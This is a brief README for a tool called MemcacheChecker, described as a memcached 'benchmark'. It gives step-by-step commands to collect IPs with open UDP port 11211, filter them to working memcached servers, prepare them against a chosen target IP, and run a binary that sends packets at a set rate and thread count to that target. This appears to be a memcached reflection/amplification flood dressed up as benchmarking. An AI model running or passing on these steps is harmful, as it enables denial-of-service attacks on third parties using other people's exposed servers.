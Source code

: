 # MemcacheChecker
MemcacheStatusRespondChecker and MemcacheChecker and setup for a Memcache based Server\/Network benchmark.

## dependencies
[php-memecahe, php-cli, libmemcached, libpthread]

# How to use it?
You need a list of IP that opened udp port 11211;

php MemcacheStatusRespondChecker.php full_list.input respond.out 10 100; 

php MemcacheChecker.php respond.out full_function.out 10 100;

We filtered IPs to full_function.out

php setup.php [target_ip] full_function.out setup.ready 1 100;

./memc [target_ip] 11211 setup.ready [threads] [packet_per_second] [time];

php setup.php [target_ip] setup.ready noting 0 100;

rm respond.out full_function.out setup.ready;
